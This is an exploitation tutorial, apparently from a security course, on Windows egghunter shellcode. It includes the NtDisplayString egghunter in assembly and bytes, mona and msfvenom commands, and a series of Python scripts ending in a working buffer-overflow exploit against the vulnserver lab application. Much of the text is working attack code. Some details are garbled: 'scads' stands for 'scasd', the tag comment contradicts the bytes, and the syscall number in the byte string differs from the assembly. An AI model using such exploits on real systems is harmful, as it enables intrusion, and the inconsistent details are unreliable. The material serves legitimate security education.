







:orphan:
(windows-egg-hunting)=

# Windows Egg-Hunting


An egghunter is a piece of shellcode used as a payload in exploits where the available space is very limited. It is called an egghunter because it "hunts" for a specific sequence of bytes (known as an egg) in memory, which is then used to determine where the shellcode should be executed. The egghunter itself is usually very small, usually around 20-40 bytes. In this blog post, we will take a look at how egghunters work and how they can be used in exploits.

## How does Egghunter shellcode work?
During a buffer overflow attack, the entire buffer is not always allocated in its original form within the memory of the target program. Egghunter shellcode, or egghunter, is a specific type of (small-sized) shellcode that can be executed when a user’s buffer is split and allocated in an unknown portion of memory during an overflow.

You are aware that character transformations are possible. However, transformations are not restricted to characters alone. Occasionally, entire memory portions may be relocated for unknown reasons.

It is not uncommon for the majority of your payload buffer to be allocated in a random region of memory when a buffer overflows. Additionally, occasionally the buffer is truncated, making it impossible to fit your shellcode within the available space.

In such cases, it is frequently possible to deliver the shellcode to the program's memory via an alternative channel.

For instance, an alternative form of input via a different functionality than the one being attacked.

Numerous applications store user input in memory for longer than necessary. We can deliver the shellcode to the application that truncates the payload by exploiting this vulnerability.

However, the remaining conundrum is how to reference shellcode delivered through an alternative channel.

Egghunter shellcode can search the entire address space of a process for a particular set of bytes. If this specific set of bytes is discovered, the egghunter will move the execution flow to the space in which they reside. In addition, it is approximately `40 bytes` in size and can be used when portions of the user buffer are corrupted or truncated.

The egg is essentially the shellcode that searches for the larger portion of the shellcode, which can be distinguished from the rest of the memory's contents by a special marker. Let's examine a real-world example of an egghunter shellcode to better comprehend its operation.

The egghunter shellcode is dependent on system calls that can traverse process memory. As there are few Windows system calls that provide this functionality, egghunters can be written in a variety of ways.

In a whitepaper, a security researcher with the online alias "Skape" has discovered and documented multiple methods for creating an egghunter. It is available at the following link:

[http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)

We will examine two well-known egghunter shellcodes.

**NtDisplayString (32 bytes shellcode)** - This shellcode loops through the process's memory pages and uses `NtDisplayString` to determine if the marker tag was detected. If so, the execution is moved to that location.
`NtDisplayString` displays a string and accepts a pointer to it as an argument. On the basis of its return value (was the pointer found), it is possible to determine whether or not the marker tag was located.

## References

The function will be used to locate a user-selected "egg", also known as a "marker" or "tag," which consists of four bytes. These four bytes must be specified in the egghunter shellcode, but they must also begin the second section of the shellcode.

Since various random bytes are generated at runtime and are stored in memory, it is possible that some bytes have already formed the same four-byte pattern.

To prevent such misunderstandings, the egghunter shellcode will double-check for the marker tag.

Only if it is found twice in a row will the execution immediately follow these marker tags.

The Assembly's implementation of the `NtDisplayString` egghunter shellcode looks like:

```{code-block} nasm
:force:
6681CAFF0F or dx,0xfff        ; get last address in page
42 inc edx                    ; increments the value in EDX by 1
52 push edx                   ; pushes edx value to the stack
                              ; (saves the current address on the stack)
6A43 push byte +0x43          ; push 0x43 for NtDisplayString to stack
58 pop eax                    ; pop 0x2 or 0x43 into eax
                              ; so it can be used as parameter to syscall
CD2E int 0x2e                 ; call the nt!NtDisplayString kernel function
3C05 cmp al,0x5               ; check if access violation occurs
                              ; (0xc0000005 == ACCESS_VIOLATION) 5
5A pop edx                    ; restore edx
74EF jz 0x0                   ; jmp back to start dx 0x0fffff
B890509050 mov eax,0x50905090 ; this is the tag (egg) “w00t”
8BFA mov edi,edx              ; set edi to our pointer
AF scads                      ; compare the dword in edi to eax
75EA jnz 0x5                  ; (back to inc edx) check egg found or not
AF scads                      ; when egg has been found
75E7 jnz 0x5                  ; jump back to "inc edx"
                              ; if only the first egg was found
FFE7 jmp edi                  ; edi points to the shellcode
```

It can be translated into the following sequence of bytes:

```cpp
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74" + "\xef\xb8" + "\x90\x50\x90\x50" + "\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
```

Obviously, you are not required to memorize this shellcode.

Depending on the architecture or OS version, Egghunter shellcodes are available on the web.

Additionally, mona can be used to generate an egghunter.

Within Immunity Debugger, execute the following command:

```bash
!mona egg -t w00t
```

The `-t` option specifies the marker tag which will be later referenced by the egghunter shellcode to find the second-stage payload.

## Practical example. Vulnserver

Let's investigate a buffer overflow vulnerability in vulnserver, a purposefully vulnerable application.

Vulnserver is a `TCP` server that accepts multiple command-argument pairs. Each command can be utilized in a unique manner. In the following tutorial, we will concentrate on exploiting vulnserver with an egghunter shellcode.

This time, we will only concentrate on the exploitation aspect. Let's begin with the skeleton of an exploit: an overflow in the vulnerable `KSTET` method.

At the conclusion of this exercise, the complete exploit code will be made available; this is what was used to cause the application to crash.

```python
#!/usr/bin/python3

import os
import struct
import sys
import socket

host = sys.argv[1]
port = int(sys.argv[2])

buf = b"A" * 2000

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(b"KSTET %s \r\n" % buf)
    s.close()
except:
    sys.exit()
```

We will begin by validating the crash. First, vulnserver must be run through Immunity Debugger in order to obtain a clear view of memory activity.

After launching the exploit against the instance of the vulnserver, we observe a crash with a vanilla `EIP` overwrite.



As is customary in such a scenario, the first step will be to determine the exact buffer length required to overflow the `EIP`. Using `mona.py`, we can generate the following pattern:

```bash
!mona pattern_create 2000
```

or:

```bash
msf-pattern_create -l 2000
```

Using the newly created buffer to launch the exploit causes the vulnserver to crash. Using mona, we can determine the offset to `EIP`:

```python
import os
import sys
import socket
import struct

host = sys.argv[1]
port = int(sys.argv[2])

# send data to the KSTET parameter:
pattern = (b'''Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B''')

buf = b""
buf += pattern

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(b"KSTET %s \r\n" % buf)
    s.close()
except:
    sys.exit()

```

It appears that `EIP` is overwritten after `70 bytes` of garbage data. Let's confirm that, and we'll also modify the exploit slightly.



```python
#!/usr/bin/python3

import os
import sys
import struct
import socket

host = sys.argv[1]
port = int(sys.argv[2])

buf = b""
buf += b"A" * 70
buf += b"B" * 4
buf += b"C" * 600

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(b"KSTET " + buf + b"\r\n")
    s.close()
except:
    sys.exit()
```

After launching the most recent exploit, we can examine the memory following the crash.



We can draw the following conclusion:

- `EIP` was overwritten after seventy bytes; this is a standard `EIP` overwrite.

- The shellcode has `20 bytes` remaining after the `EIP` is overwritten. Following this, the payload is truncated.

- The shellcode has `70 bytes` remaining before the `EIP` is overwritten.

Even when condensed, `90 bytes` are insufficient to store a more complex payload (e.g. a reverse shell shellcode). In addition, shellcode must occupy at least a few hundred bytes in order to account for the possibility that some invalid characters will be discovered. How shall we proceed?

If we are able to deliver another payload containing a longer shellcode to the software's memory, we can then attempt to use the egghunter shellcode. But how do we load this information into the software's memory?

We may attempt to establish a second connection to vulnserver while sending the exploit buffer.

Since egghunter shellcode is able to search the entire process memory, if another command can be temporarily stored in memory, this could be sufficient for an egghunter shellcode to locate and execute it.

Try including the execution of a second command in the exploit. Then, let's execute the crashing command and use mona to search for it in the program's memory.

`600 bytes` is sufficient for storing even large shellcode. Let's give it a shot and launch the updated exploit at the vulnerable server.

Before concluding that this is a suitable location for shellcode execution, let us examine the bad characters. We can assume with certainty that the null byte is a badchar. What about the remainder? For your convenience, use the ASCII table below.

```python
badchars =
("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

Bad Characters were determined to be: `0x00, 0x0A, 0x0D`

Then, the theoretical flow will appear as follows:

- We will replace the `EIP` address with the `JMP ESP` address. This will change the control flow to the portion of the stack being overwritten after `EIP`. Currently, there are `B`s.

- We will then use these few bytes to move backwards. This can be accomplished through stack manipulation or a direct short jump. Currently, there are `C`'s.

- We will place the egghunter at the beginning of our buffer so that it can be executed immediately after the jump. Currently, there are `A`'s.



After relaunching the application and the most recent vulnerability. The egghunter was successfully executed and identified the majority of our shellcode.



Everything works fine. Let’s then proceed to the final step.

Shellcode must be added in place of the breakpoints.

We can use one generated by `msfvenom`: a simple `calc.exe` will suffice to confirm code execution.

```bash
msfvenom -p windows/exec CMD="calc.exe" EXITFUNC=thread -b "\x00\x0a\x0d" -f c
```



After pasting it into the exploit, let's run the vulnserver normally (outside of the debugger) and then apply the exploit to it.

```python
#!/usr/bin/python3

import os
import sys
import struct
import socket

host = sys.argv[1]
port = int(sys.argv[2])

shellcode = (b"\xdb\xd3\xd9\x74\x24\xf4\x5b\xba\x06\xfe\x7e\x5a\x33\xc9\xb1"
"\x31\x83\xeb\xfc\x31\x53\x14\x03\x53\x12\x1c\x8b\xa6\xf2\x62"
"\x74\x57\x02\x03\xfc\xb2\x33\x03\x9a\xb7\x63\xb3\xe8\x9a\x8f"
"\x38\xbc\x0e\x04\x4c\x69\x20\xad\xfb\x4f\x0f\x2e\x57\xb3\x0e"
"\xac\xaa\xe0\xf0\x8d\x64\xf5\xf1\xca\x99\xf4\xa0\x83\xd6\xab"
"\x54\xa0\xa3\x77\xde\xfa\x22\xf0\x03\x4a\x44\xd1\x95\xc1\x1f"
"\xf1\x14\x06\x14\xb8\x0e\x4b\x11\x72\xa4\xbf\xed\x85\x6c\x8e"
"\x0e\x29\x51\x3f\xfd\x33\x95\x87\x1e\x46\xef\xf4\xa3\x51\x34"
"\x87\x7f\xd7\xaf\x2f\x0b\x4f\x14\xce\xd8\x16\xdf\xdc\x95\x5d"
"\x87\xc0\x28\xb1\xb3\xfc\xa1\x34\x14\x75\xf1\x12\xb0\xde\xa1"
"\x3b\xe1\xba\x04\x43\xf1\x65\xf8\xe1\x79\x8b\xed\x9b\x23\xc1"
"\xf0\x2e\x5e\xa7\xf3\x30\x61\x97\x9b\x01\xea\x78\xdb\x9d\x39"
"\x3d\x03\x7c\xe8\x4b\xac\xd9\x79\xf6\xb1\xd9\x57\x34\xcc\x59"
"\x52\xc4\x2b\x41\x17\xc1\x70\xc5\xcb\xbb\xe9\xa0\xeb\x68\x09"
"\xe1\x8f\xef\x99\x69\x7e\x8a\x19\x0b\x7e")

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(b"KSTET " + b"w00tw00t" + shellcode + b"\r\n")
    print(s.recv(1024))
    s.close()
except:
    sys.exit()

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += b"\xef\xb8\x6c\x6f\x6b\x69\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    buf = b"\x90" * 30
    buf += egghunter
    buf += b"\x90" * ((70 - len(egghunter) - 30))
    buf += struct.pack("I", 0x7C874F13)
    buf += b"\xeb\xce"          # Jump Back 50 Bytes for egghunter shellcode
    buf += b"C" * 200
    s.send(b"KSTET " + buf + b"\r\n")
    print(s.recv(1024))
    s.close()
except:
    sys.exit()
```

We should see `calc.exe` being executed!



## References

[Egghunt shellcode](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)
[NtDisplayString](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FError%2FNtDisplayString.html)
[vulnerable vulnserver](https://github.com/stephenbradshaw/vulnserver)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::
